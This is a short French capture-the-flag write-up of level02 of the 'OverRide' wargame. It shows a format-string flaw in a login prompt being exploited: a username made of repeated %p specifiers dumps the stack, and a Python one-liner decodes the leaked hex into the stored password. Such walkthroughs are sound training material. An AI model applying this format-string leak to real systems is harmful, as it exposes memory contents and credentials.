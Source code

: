 # level02

Le binaire est en 64bits !

On remarque que le `true_password` est juste après notre input `password` sur la stack.

Aussi, lorsque notre `password` est incorrect, notre `username` est le `format` d'un `printf`.

Grâce à cela, on peut imprimer la stack à coup de `%p`:
```
level02@OverRide:~$ ./level02
===== [ Secure Access System v1.0 ] =====
/***************************************\
| You must login to access this system. |
\**************************************/
--[ Username: %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
--[ Password: ABCDEFGH12345678
*****************************************
0x7fffffffe4f0 (nil) 0x41 0x2a2a2a2a2a2a2a2a 0x2a2a2a2a2a2a2a2a 0x7fffffffe6e8 0x1f7ff9a08 0x4847464544434241 0x3837363534333231 (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) (nil) 0x100000000 (nil) 0x756e505234376848 0x45414a3561733951 0x377a7143574e6758 0x354a35686e475873 0x48336750664b394d (nil) does not have access!
```

On retrouve bien notre password mis en input car `ABCDEFGH` donne `0x4847464544434241` suivi de `12345678` (`0x3837363534333231`).

Le mdp cherché fait 42 chars, dont 5 octets.
Après notre string, on retrouve bien 5 octets !

On décode les 5 strings en hexa:
```python
"48336750664b394d354a35686e475873377a7143574e675845414a3561733951756e505234376848".decode("hex")[::-1]
# 'Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H'
```

